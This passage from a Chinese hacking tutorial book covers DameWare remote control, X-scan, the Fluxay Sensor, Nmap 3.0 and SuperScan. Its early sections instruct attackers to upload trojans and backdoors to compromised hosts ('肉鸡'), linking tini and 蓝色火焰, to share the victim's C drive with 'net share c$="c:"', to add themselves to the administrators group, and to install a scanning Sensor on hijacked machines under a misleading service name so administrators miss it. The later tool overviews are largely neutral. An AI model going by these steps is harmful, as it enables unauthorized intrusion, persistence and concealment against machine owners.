



- 5. 信使服务：给远程主机传送信息，这样在远程主机上将能够弹出一个对话框“你好，你的机子被我入侵了”，用这个东西也能够在你和你远程在线的朋友之间传递信息，如图1-12-11所示。

- 6. 启动与停止服务：服务窗口的功能能够让肉鸡开始、停止、暂停，并且能修改一种服务的启动性质，还能查看服务相关性。下面我谈谈重要的地方。在 install service 里面，我们能够上传木马，并且远程启动这个木马。比如 tini，下载地址：http://hjcz.myrice.com/hmcx.htm，一个非常小的后门程序（不是木马），只有 3k，对方执行后，你可以用 telnet 连对方的 7777 端口；利用 DOS 命令控制对方。比如蓝色火焰，下载地址：http://soft.kml69.net/soft/html/3696.htm，这款木马相当好啊！还有其他很多木马，在此不一一列举。而且还可以用它来上传自己做的批处理文件。它为服务安装和批处理能在肉鸡和本地主机建立相关接口。关于查看和控制 Windows NT/2000 的服务，在肉鸡的服务对话框被列出，它记录了肉鸡上被安装的服务运行情况，如图1-12-12所示。




- 7. 共享文件夹管理：共享文件夹，也就是我们在本机资源管理器里看到的磁盘和文件，复制、删除，对远程主机的文件管理跟本地主机几乎一样。有了这项功能，我们能从远程主机下载重要的资料文件，也可以将我们的木马上传到远程主机上。假如远程主机文件夹没打开共享服务，我们在 RCMD 命令里输入：`net share c$="c:"`，这样 C 盘就共享了！如图1-12-13所示。

```bash
net share c$="c:"
```

- 8. 对肉鸡进行重启、注销、关机，如图1-12-14所示。


图1-12-13

图1-12-14

- 9. 用户管理：增加、复制、删除、重命名用户，并可更改用户属性，最好把他添加到管理员组。提供权限给一个用户的最容易的方法是把那个用户加到已经拥有需要权利的内建组，但要对主机更好地控制，最好把我要登录的用户加到管理员组。在管理员组成员中用户是最高权限，如图1-12-15所示。

- 10. 唤醒在局域网里面的主机，打开、保存被唤醒主机的文件，找寻主机，单个唤醒或者成批唤醒，如图1-12-16所示。


图1-12-15

图1-12-16

到此为止，我已经介绍完 DameWare NT Utilities 的一些最常用、最重要的功能。还有其他功能的使用比较简单，希望大家在使用过程中慢慢摸索。

## 第2章 形形色色的扫描器

### 2.1 抢鲜试用 X-scan v2.0

前段时间，在安全焦点逛的时候，看到我朝思暮想的 X-scan 有新版本了，迫不及待地 DOWN 回了硬盘。

X-scan 是安全焦点的精品，由冰河的作者黄鑫开发，质量那是没得说。这回的新版本新增路由信息检测、Snmp 信息检测插件；升级 NetBios 插件，新增远程注册表信息检测；升级 IIS 插件，新增对 ASP 漏洞的检测；对插件接口作细微修改，更新图形界面，新增“在线升级”功能；扩充 CGI 漏洞数据库；修正 1.3 以前版本中已知 BUG。下面就是 X-scan v2.0 的界面，如图2-1-1所示，扫描结果的显示方式模拟了 LANguard Network Scanner 2.0 扫描器。

我们先来看看此次添加的功能，由图2-1-2我们清楚地看到，在扫描模块中相对于 X-scan v1.3 增加了对路由信息、Snmp 信息的探测，这使我们能收集到的信息更加全面了。


图2-1-1

图2-1-2

扫描参数里也增加了不少实用的功能，比如可以跳过 PING 不通的主机，跳过没有开放端口的主机，这样可以大幅度提高扫描的效率，还有强制扫描。在端口的设置选项里，增加了一个“预设知名服务端口”的功能，在字典文件里增加了“Snmp 密码字典”的设置。

还有不同的就是，界面和功能如图2-1-3所示。界面自然是好看多了，重要的是功能，这才是大家所关心的。所以，我做了一次测试来衡量一下两个版本。由于条件不足，不一定准确。

- 测试环境：P4 1.6GA　512M DDR266
- 测试目的：Windows 2000 Server SP2，没装防火墙
- 测试项目：速度和扫描结果的准确性。


图2-1-3

图2-1-4

两个版本的扫描模块全选，不显示详细扫描进度，其他的都是默认选项。测试结果表明不相上下，但由于人们普遍喜新厌旧，我判 X-scan v2.0 胜出。速度可能是扫描模块少一些的缘故。X-scan v1.3 是 1 分 40 秒全部扫完，而 X-scan v2.0 则是 2 分 10 秒。X-scan v1.3 扫描的结果如图2-1-4、图2-1-5所示。X-scan v2.0 的结果如图2-1-6、图2-1-7所示。


图2-1-5

图2-1-6


图2-1-7

相信大家已经看出结果是一样的。下面就通过实例来教大家如何使用并掌握 X-scan v2.0。建议初学者拿 127.0.0.1 做实验。

先打开 X-scan v2.0，设置好扫描参数，如果是扫描单机，可以选“无条件扫描”避免错过。如果是没有目标的扫描，或是扫描一个 IP 段的主机，建议选“跳过 PING 不通的主机”以避免浪费自己宝贵的时间。

其他的不用设置了。比较讲究技巧的地方是扫描模块这部分，用得好可以大大提高效率，用不好白白浪费时间。比如 127.0.0.1 是一台开了 Web 的服务器，手动检测看看，用 PING 看看 TTL 的值来初步确定该主机是什么平台：是 114 左右就是 2000 平台，是 254 就是 UNIX 类平台。访问该站点，看看该站点是由什么语言驱动，看到 ASP 就可以确定是 NT/2000 系统，看到 PHP 就可以认为是 UNIX 类系统。好了，我们看见是 ASP 站点，确定是 NT/2000 系统，可以取消一些扫描模块，比如在 WIN 主机不常用的 Finger……扫描的时候建议先选端口扫描，其他的都不选，先通过对方开放的端口来判断所提供的服务，否则别人没开 25、110 还在狂扫 SMTP 和 POP3，这岂不是浪费时间？好了，比如刚才扫描我的电脑只开了 80 和 135，我们在扫描模块里就选“路由信息”“NT-Server 弱口令”“NetBios 信息”“CGI 漏洞”“IIS 漏洞”这些和主机还有 IIS 有关的就可以了，不少新手不管什么主机都全选，这不是浪费时间吗？过几分钟就可以看到结果了，结果可以看上边的图。

不管怎么说，X-scan 的确是一款绝对经典的扫描器，更确切地说是一款漏洞检查器。由于测试仓促、条件限制（我的电脑经过安全配置），没有把所有新功能体现出来，大家如果对着自己刚装好没有配置过的电脑可能会有新发现。

### 2.2 实战流光4.7 Sensor

#### 一、写在前面

本文介绍的所有内容都是想给国内的管理员测试自己网络的安全性所用，读者请明智地阅读，不要危害中国的网络！否则，出现一切后果均由肇事者承担，与笔者无关！

小榕加入远程 Sensor 扫描功能使得流光如虎添翼，人见人爱。大家知道，在本地机器上运行流光需要占用很大的资源，尽管小榕极力鼓吹他的流光占用的资源不是很大，CPU 不到 3%，内存不到 10M，只是占用带宽比较大而已。然而正是因为占用带宽较大，才使得一些只有 56K 猫的拨号上网用户感到头疼！

新版本中小榕采用了全新的远程 Sensor 扫描功能，将扫描的任务交给安装有 Sensor 的远程服务器去完成，扫描的结果可以直接通过附件发送到设定的信箱中去，我们的工作仅仅是打开邮箱等待。

#### 二、流光的下载与安装

流光 4.7 不光是界面有所改进，在功能上也修正了许多 BUG，使得它的扫描速度比以前版本快了很多。大家可以到小榕软件实验室（http://www.netxeyes.com）下载最新版本的流光。为了操作和入侵的方便，建议大家将流光 4.7 安装在 Windows 2000 Server 下。运行流光 4.7，出现了很酷的欢迎界面，是不是有一种耳目一新的感觉？

初始化完成后，流光会提示你输入密钥，该密钥是在和 Sensor 之间的通讯数据加密时用的，流光界面和 Sensor 之间的通讯采用 Triple-DES，密钥的长度最多可到 192 bits，能保证整个传输过程不被监听，扫描的结果也只有在密钥正确的情况下才可阅读。在“设置密钥”对话框连续输入两次相同的密码，点击“确定”即可，如图2-2-1所示。


注意：用于加密与 Sensor 之间通讯的数据的密钥可以随意更改，更改方法是：点击“工具”菜单中的“设置加密密钥”子菜单项，将会重新弹出上图的“设置密钥”对话框，在对话框中设置新密码即可。

#### 三、实战 Sensor

##### 1. 有关 Sensor 的基础知识

什么是 Sensor？为什么要安装 Sensor？安装 Sensor 有什么用途？Sensor 在中文里是“传感器”的意思，这是流光自从 4.5 版本以来就采用的一种全新的扫描技术。流光的 Sensor 主要由 3 个部件构成：控制服务、扫描 Sensor 和配置文件，下面对这 3 个部件作简单说明。

控制服务：以 LocalSystem 身份运行，它主要负责扫描 Sensor 的启动/状态检查/停止、cmd 重定向和进行 TCP 包转发，让管理员在系统日志里找不到你的 IP，保护了你的安全。

扫描 Sensor：主要执行流光控制界面传递的扫描任务。

配置文件：包括字典等文件。

Sensor 要在远程主机上安装，本文着重介绍这种扫描技术。安装完成后，扫描的工作就完全依靠 Sensor 来完成，这样我们就可以“渔翁得利”啦，既保护了自己，又充分利用了对方服务器的带宽。我们在本地机器的流光界面中随时都可以控制 Sensor 的行动，让它更好地为我们服务，减少了本地资源的支出。流光 4.7 利用 Sensor 扫描的原理如图2-2-2所示。


##### 2. 使用 Sensor 的注意事项

首先，为了安装 Sensor，必须先具有一台管理员权限的主机（也就是肉鸡），并且确定其开放了 admin$ 共享。大家也不用担心将 Sensor 安装在远程服务器有没有安全风险，只要你选择一个复杂的控制密码就不会有安全风险。

其次，Sensor 是安装在远程主机上运行的，并不是说凡是使用 Sensor 扫描都比本地扫描要快，这要决定于远程主机是否开有防火墙、是否存在动态监测、网络连接是否稳定等，所以，有时候 Sensor 主机的速度会突然变得很慢也不必奇怪。

第三，流光 4.7 Sensor 不支持 Windows XP，所以不能将其安装在 Windows XP 的主机上，要选择 Windows NT/2000 的主机来安装流光 Sensor。

第四，按照小榕的说法，流光 Sensor 是不能安装在国内主机上的。

##### 3. Sensor 的使用步骤

- 1）寻找肉鸡：由于装 Sensor 需要一台具有管理员权限的、开放了 admin$ 共享的 Windows NT/2000 机器，我们将捕获到的这样的机器叫做肉鸡。（顾名思义，我们已经具有 Administrator 权限，可以在这台机器上做任何事情，就像砧板上香喷喷的肉鸡，任人宰割）如果你是第一次使用流光的话，没有肉鸡是不能安装 Sensor 的，所以菜鸟儿们，下了流光第一步就是自己找肉鸡，或者向别人要一台肉鸡（很没面子的~~），不如我们“自己动手，丰衣足食”好了。

“确定”按钮，在弹出的“选择流光主机”对话框中选择默认的“本地主机”选项，直接点击“开始”即可，耐心等待 20 多分钟一般都有所收获的。下面我们假设找到了一台管理员用户名为 Administrator，密码是 12345 的 Windows 2000 肉鸡，在这台肉鸡上安装 Sensor。

- 2）安装 Sensor：有了肉鸡，现在便将 Sensor 安装到它上面接受流光界面的控制，让它更好地为我们服务。运行流光 4.7，依次点击菜单项“工具 -> Fluxay Sensor 工具 -> 安装 Fluxay Sensor(S)”，如图2-2-4所示。


图2-2-3

图2-2-4

如果嫌麻烦可以直接按 Ctrl+I 快捷键，调出“安装 Fluxay Sensor”窗口，在“主机 IP”里填上肉鸡的 IP 地址；“系统账号”就是你刚才得到的具备 Administrator 权限的账号，即 Administrator，系统密码填 12345。那“服务名称”呢？这个可以自定义，主要是为了确定 Sensor 的安装目录，如笔者填的是：wdsvc（要是在同一主机上安装多个 Sensor，那各 Sensor 的服务名称就要区别开来，千万不能相同）；“显示名称”：与上面的 wdsvc 对应的，只不过这是在“服务管理器”里显示的名称，当 Sensor 所在主机的管理员打开服务管理器的时候，显示的就是这个服务名称。为了在管理员眼皮底下更好地隐藏自己，这个名称要有点迷惑性，如“Windows Deploy Service”；“服务描述”：Sensor 服务的功能描述，同样要出现在“服务管理器”里；“控制进程”和“扫描进程”：控制服务和扫描服务的进程名字，就用流光默认的 Control 和 Sensor 吧；“注释”：是在你的“Sensor 管理工具”上的“备注”项显示的，给自己看而已；“用户名”和“控制密码”：这个是你用流光界面连接控制服务和 Sensor 的用户名和密码，填上了这个，就只有你一个人能用流光控制这台机器上的 Sensor 模块，别的人就算有流光，而且知道这台肉鸡上装有 Sensor 也不能使用你的 Sensor；“控制端口”：就是流光图形界面和控制服务的通信端口；“服务端口”：流光图形界面端和扫描 Sensor 执行扫描任务时通信的端口（控制端口和服务端口不能与主机本身使用的端口冲突，如 21、23 端口等，否则这些端口将被劫持）。填好后如图2-2-5所示。

点击“安装”就可以了，随后出现“服务安装成功”“启动服务 wdsvc”等提示，如图2-2-6所示，Sensor 的安装工作结束。

- 3）使用 Sensor：安装好 Sensor，现在马上要派上用场了，按快捷键 Ctrl+A 呼出如上面图3所示的对话框，填好 IP 地址的始末后点击“确定”按钮，将出现如图2-2-7所示的“选择流光主机”对话框，这回就不止“本地主机”一个选项，所有安装有 Sensor 的主机 IP 都出现在主机下拉列表中了。

选择一台 Sensor 主机，接着输入控制的用户名和密码，然后选择“后台模式，扫描开始后无需客户端干预”选项，如图2-2-8所示，点击“开始”按钮就行了。

过一会，流光就会提示你“扫描已经开始……”，点“确定”即可。这样就算断开和 Sensor 的连接或者关闭流光下网，Sensor 都会在远程主机上自动扫描，扫描完后即通知你接收扫描报告。

- 4）接收报告：这一步是在上面的选择 Sensor 主机之前就应该做好的，大家看到上图中有个“选项”

图2-2-5

图2-2-6

图2-2-7

图2-2-8

点击按钮后会出现如图2-2-9所示的对话框，这便是后台模式扫描通知用户接收扫描报告的两种方式：短消息和邮件。有手机的朋友填手机项（要在 sms.sina.com.cn 拥有一个账号和密码才能使用）；也可以设置 E-mail 项，通过 E-mail 通知（并将扫描报告作为邮件的附件发送到指定的信箱中去），点击“确定”即可。

这样，当 Sensor 扫描结束会自动将扫描报告作为附件发送到邮箱里，可以去邮箱验收，也可以直接通过流光的运行界面从 Sensor 主机上取回扫描结果。方法：依次点击“文件 -> Fluxay Sensor 结果分析 -> 查看 Fluxay Sensor 扫描记录”。在主机 IP 下拉列表中选择相应的 Sensor 主机，与之对应的控制用户名和密码就跳出来了，点击“连接”按钮，就可以看到该 Sensor 主机上存在的扫描报告文件了，如图2-2-10所示。

图2-2-9

图2-2-10

在相应的 IP 段扫描报告上单击右键，这时有两个菜单项。由于要养成在接收扫描报告以后将 Sensor 上的报告临时文件全部删除的好习惯，故建议选择“打开后删除...”项，如图2-2-11所示。

接着弹出如图2-2-12所示的对话框，询问是否需要查看扫描报告。

图2-2-11

图2-2-12

点击“是”按钮，不一会就又看到了熟悉的扫描报告了，如图2-2-13所示。

图2-2-13

目标主机的扫描结果出来了，往后的工作跟以前的版本差不多。有关流光 Sensor 的更多知识请大家参考流光自带的 Help，想怎么弄就怎么弄吧，只是奉劝大家一句：不要危害中国的网络，否则法理难容！

## 2.3 Nmap 3.0正式版给我们带来了什么

Nmap 作为一款免费的网络安全扫描软件，在网络的各个领域恐怕是无人不知无人不晓。Nmap 以它强大的功能、出色的技术和性能赢得了网络各界的赞誉，被 Linux Journal、Info World 和 Codetalker Digest 评为“年度最佳安全产品”。不止黑客们喜欢它，它也是出色网络管理员们的制胜法宝。

2002年7月31日，Insecure.org 推出了 Nmap 的一个重要升级版本 Nmap 3.0。之所以说重要，是因为 3.0 版本是自从 2000 年 5 月推出的 2.53 版本以后的第一个稳定版本，我们很多人用的那个 2.54 Beta XX 都是用于测试的非稳定版本。3.0 还增加了许多实用功能，并改进了测试版本的一些不足，所以下面介绍的是 3.0 版本与 2.53 版本相比的一些重要改进。现在就让我们具体地来看看 Nmap 3.0 都给我们带来了什么改进。

新版本增加了远程主机协议扫描（-sO），使用这个选项可以让扫描者得到远程主机都支持哪些 IP 协议。例如大家再熟悉不过的 TCP、UDP、IGMP 等等很多协议，这项功能可以帮助黑客们分析远程主机所运行的协议，进而推断出远程主机可能的服务。

黑客入侵最重要的一步就是判断远程主机上所运行的操作系统类型，进而判断远程主机都可能存在哪些漏洞，并根据相应的系统特点采取不同的方法，这是后续入侵的前提。这也是 Nmap 拥有众多忠实用户的原因之一。到了 3.0 版本，Nmap 可以识别 700 多种不同的操作系统版本和网络设备（包括打印机、路由器）；另外又加入了一些新的识别机制，使识别率更高，而且还会给出更加详细的版本信息，并在原有的 -O 参数给出操作系统版本类别的基础上，增加了探测远程主机从最近一次启动后到被 Nmap 扫描时工作了多长时间的功能（也就是所谓的 uptime）。还可以识别 2148 种不同的端口分配类型、451 种 SunRPC 服务、144 种 IP 协议。

通过增加 Idle 扫描模式（-sI）使扫描更加隐蔽，使用的扫描数据包可以轻易通过没有正确配置的防火墙和 IDS 系统，并且数据包不会通过扫描者真实的 IP 地址发送，防火墙那里记录的是攻击者在扫描时给出的伪造地址。而且通过这个，攻击者可以试探都有哪些主机是被接受扫描的远程主机信任的。Nmap 3.0 还使用了更智能的技术来避免使用未被分配的 IP 地址段来作为伪造地址。据 Insecure.org 称，Idle 是 Nmap 所有扫描模式中最隐蔽的。

增加了如 ICMP 时间戳（-PP）和子网掩码（-PM）ping 扫描方式，时间戳扫描专门针对那些对普通 ping 扫描（-PI，ICMP echo request）不响应的主机。还可以在一次扫描指定端口中通过（-sSU）参数同时指定 UDP 和 TCP 协议的端口，如 -sSU -p U:53,137,T:80,21,23,79。

通过几次改进，Windows 下兼容性得到很大提高，3.0 版本可以在 Windows 下正常工作了。过去比较老的版本在 Windows 下会有很多功能无法实现，还有很多 Unix 下没有的 BUG。要想在 Windows NT 下正常使用 Nmap，还需要安装一个 Nmap Patch For NT。不过，不管你装的是否是新版，都一定要装 WinPCap，这是现在很多黑客工具的基础。Nmap 3.0 Windows 版本和 UNIX 下的一样，以 3 种形式发布：源代码包、已编译的命令行包和一个 GUI 界面的包（NmapWin 将在后面简单介绍）。不过话又说回来，Windows 下的版本可是没有 UNIX 下那么稳定。另外，使用 Mac OS 的用户也可以体验一下 Nmap 的强大功能。

XML 作为一项通用技术，很多领域和软件都支持，Nmap 也不例外。3.0 版本支持 XML 形式的扫描结果输出，使其他工具软件可以利用 Nmap 的扫描结果进行深一步处理，具有良好的交互和协同性。

下面就来谈谈 Nmap 的 GUI 版本。Nmap 有很多 GUI 版本，如 NmapWin、Qnmap、Vnmap、Knmap，还有一款基于 Unix Web 的 Nmap-web。Windows 下的用户最好使用 NmapWin，因为它有一个很好的安装版本，不用编译，很方便。NmapWin 也尽可能提供了基于命令行的 Nmap 的绝大部分功能，但是有些参数还只能在命令行方式下才可以得到。

Nmap 是一项庞杂的工程，3.0 正式版并不代表 Nmap 已经很稳定、很完善了，世界上很多热心的高手们都加入了 Nmap 的这项计划。这项计划还在进行中，还有很多新的实用功能正处于开发和试验阶段。我们有理由相信，Nmap 将会发展成为全面的安全测试工具。

最新的 Nmap 版本和相关文档可以到 http://www.insecure.org/nmap 处下载，包括 GUI 版本 NmapWin 都可以在那里得到。另外，还可以到 http://sourceforge.net/ 搜索 Nmap 并下载，这里提供的 Nmap 版本很全。NmapWin 的资料可以参考：

http://mypage.bluewin.ch/vogje01/e/nmapwin/help/nmapwin_help.html

要想得到 Nmap 各个升级版本的详细改进，可以参考：

http://www.insecure.org/nmap/data/CHANGELOG

## 2.4 超级扫描工具SuperScan

对一个网络管理员或者网络攻击者而言，一款好的扫描软件是必不可少的。随着互联网的逐步普及，各种各样的扫描软件也就传播开来，随便去一个软件下载站点看一看，扫描软件至少有几百个，但是，这么多软件我们可以用到多少？这些软件到底功能如何？对一般的使用者而言，太多的软件反而是一个麻烦，因为不知道怎样选择！

一款好的扫描软件应该具备以下功能：

- 功能强大。这里的“功能强大”不是指功能很多，而是指软件提供的功能都可以取得很好的效果。
- 尽量在一个相关的领域做到全面。比如，扫描系统漏洞的软件最好兼顾该系统的所有版本和大部分常见漏洞。
- 负责的编写者。软件推出以后，万事大吉的编写者大有人在，看看软件的升级历史就可以知道编写者是不是负责的。

根据这个标准，我们可以选择一些比较好的扫描软件。这里，我们专门介绍一款 IP 和端口扫描软件：大名鼎鼎的 SuperScan。

对于 SuperScan，可能我们一直有一个误会，以为它只是一个端口扫描软件。其实，除了端口扫描，它还有很多其他功能，现在我们来具体看看。

### 一、SuperScan功能介绍

SuperScan 具有以下功能：

- 通过 Ping 来检验 IP 是否在线；
- IP 和域名相互转换；
- 检验目标计算机提供的服务类别；
- 检验一定范围目标计算机是否在线和端口情况；
- 通过自定义列表检验目标计算机是否在线和端口情况；
- 自定义要检验的端口，并可以保存为端口列表文件；
- 软件自带一个木马端口列表 trojans.lst，通过这个列表我们可以检测目标计算机是否有木马。

我们可以看出：这款软件几乎将与 IP 扫描有关的所有功能全部做到了，而且每一个功能都很专业。

#### 二、下载安装

SuperScan 的最新版本可以在以下网址下载：  
http://person.longcity.net/home2/efocus/aqgj-index.htm

直接解压就可以使用，没有安装程序，是一款绿色软件。

#### 三、软件具体使用

在使用软件之前，我们先来看看软件的全貌（图2-4-1）。

图2-4-1

界面比较复杂，我们根据各项功能来介绍使用。

### 1. 域名（主机名）和IP相互转换

这个功能的作用就是取得域名（比如：163.com）的 IP；或者根据 IP（202.106.185.77）取得域名。

在 SuperScan 里面，有两种方法来实现此功能：

- 1. 通过 Hostname Lookup 来实现（如图2-4-2）

图2-4-2

在 Hostname Lookup 的输入框输入需要转换的域名或者 IP，按【LookUp】就可以取得结果。如果需要取得自己计算机的 IP，可以点击【Me】按钮来取得；同时，也可以取得自己计算机的 IP 设置情况，点击【InterFaces】取得本地 IP 设置情况（图2-4-3）：

- 2. 通过 Extract From File 实现

这个功能通过一个域名列表来转换为相应 IP 地址。

选择【Extract from file】，点击【->】按钮，选择域名列表，进行转换，出现以下界面（图2-4-4）：

图2-4-3

图2-4-4

### 2. Ping功能的使用

Ping 主要目的在于检测目标计算机是否在线和通过反应时间判断网络状况。

如图2-4-5，在【IP】的【Start】填入起始 IP，在【Stop】填入结束 IP，然后，在【Scan Type】选择【Ping only】，按【Start】就可以检测了。

图2-4-5

在以上的设置中，我们可以使用以下按钮达到快捷设置目的：选择【Ignore IP zero】可以屏蔽所有以 0 结尾的 IP；选择【Ignore IP 255】可以屏蔽所有以 255 结尾的 IP；点击【PrevC】可以直接转到前一个 C 网段；选择【NextC】可以直接转到后一个 C 网段；选择【1...254】直接选择整个网段。同样，也可以在【Extract From File】通过域名列表取得 IP 列表。

在 Ping 的时候，可以根据网络情况在【Timeout】设置相应的反应时间。一般采用默认就可以了，而且 SuperScan 速度非常快，结果也很准确；一般没有必要改变反应时间设置。

##### 3. 端口检测

端口检测可以取得目标计算机提供的服务；同时，也可以检测目标计算机是否有木马。现在，我们来看看端口检测的具体使用。

###### （1）检测目标计算机的所有端口

如果检测的时候没有特定目的，只是为了了解目标计算机的一些情况，可以对目标计算机的所有端口进行检测。一般不提倡这种检测，因为：

- 它会对目标计算机的正常运行造成一定影响，同时也会引起目标计算机的警觉；
- 扫描时间很长；
- 浪费带宽资源，对网络正常运行造成影响。

在【IP】输入起始 IP 和结束 IP，在【Scan Type】选择最后一项【All Ports From 1 to 65535】。如果需要返回计算机的主机名，可以选择【Resolve Hostname】，按【Start】开始检测。（图2-4-6）

图2-4-6

上图是对一台目标计算机所有端口进行扫描的结果。扫描完成以后，按【Expand all】展开，可以看到扫描结果。我们来解释一下以上结果：第一行是目标计算机的 IP 和主机名；从第二行开始的小圆点是扫描的计算机活动端口号和对该端口的解释；此行的下一行有一个方框的部分是提供该服务的系统软件。【Active hosts】显示扫描到的活动主机数量，这里只扫描了一台，为 1；【Open ports】显示目标计算机打开的端口数，这里是 10。

###### （2）扫描目标计算机的特定端口（自定义端口）

其实，大多数时候我们不需要检测所有端口，我们只要检测有限的几个端口就可以了，因为我们的目的是为了得到目标计算机提供的服务和使用的软件。所以，我们可以根据个人目的的不同来检测不同的端口。大部分时候，我们只要检测 80（Web 服务）、21（FTP 服务）、23（Telnet 服务）就可以了，即使是攻击，也不会有太多的端口检测。

点击【Port list setup】，出现端口设置界面（图2-4-7）：

图2-4-7

以上界面中，在【Select ports】双击选择需要扫描的端口，端口前面会有一个“√”的标志；选择的时候，注意左边的【Change/Add/Delete port info】和【Helper apps in right-click menu】，这里有关于此端口的详细说明和所使用的程序。我们选择 21、23、80 三个端口，然后点击【save】按钮保存选择的端口为端口列表。【OK】回到主界面，在【Scan Type】选择【All selected ports in list】，按【Start】开始检测。

使用自定义端口的方式有以下要点：

- a. 选择端口时可以详细了解端口信息；
- b. 选择的端口可以自己取名保存，有利于再次使用；
- c. 可以根据要求有的放矢地检测目标端口，节省时间和资源；
- d. 根据一些特定端口，我们可以检测目标计算机是否被攻击者利用、种植木马，或者打开不应该打开的服务；
- e. 检测目标计算机是否被种植木马。

